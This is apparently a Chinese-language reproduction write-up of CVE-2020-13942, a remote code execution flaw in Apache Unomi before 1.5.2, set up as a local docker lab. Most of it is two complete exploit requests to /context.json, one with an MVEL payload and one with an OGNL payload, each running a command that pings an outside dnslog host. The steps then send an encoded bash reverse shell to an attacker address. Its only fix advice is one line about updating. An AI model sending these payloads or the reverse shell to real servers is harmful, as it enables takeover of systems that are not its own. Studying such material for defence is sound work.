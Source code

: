 # Apache Unomi远程代码执行漏洞复现-CVE-2020-13942

## 简介

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

**CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，并在服务器执行任意代码**

## 影响版本

> Apache Unomi <1.5.2

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

有两种利用方式：

- 通过MVEL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 483
  
  {
      "filters": [
          {
              "id": "sample",
              "filters": [
                  {
                      "condition": {
                           "parameterValues": {
                              "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 79jk3a.dnslog.cn\");"
                          },
                          "type": "profilePropertyCondition"
                      }
                  }
              ]
          }
      ],
      "sessionId": "sample"
  }
  ```

- 通过OGNL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 1064
  
  {
    "personalizations":[
      {
        "id":"gender-test",
        "strategy":"matching-first",
        "strategyOptions":{
          "fallback":"var2"
        },
        "contents":[
          {
            "filters":[
              {
                "condition":{
                  "parameterValues":{
                    "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"ping 79jk3a.dnslog.cn\"))",
                    "comparisonOperator":"equals",
                    "propertyValue":"male"
                  },
                  "type":"profilePropertyCondition"
                }
              }
            ]
          }
        ]
      }
    ],
    "sessionId":"sample"
  }
  ```

1. 运行如下命令启动一个Apache Unomi 1.5.1的服务器：`docker-compose up -d`

![640](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640.png)

2. 直接在首页抓包，把内容替换成上面任意一种POC即可

   目标出网测试

![650](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/650.png)

3. 进行反弹shell，将`bash -i >& /dev/tcp/192.168.1.41/7777 0>&1`进行编码，地址：http://www.jackson-t.ca/runtime-exec-payloads.html

![660](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/660.png)

4. 获取shell

![670](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/670.png)

## 修复建议

更新最新版本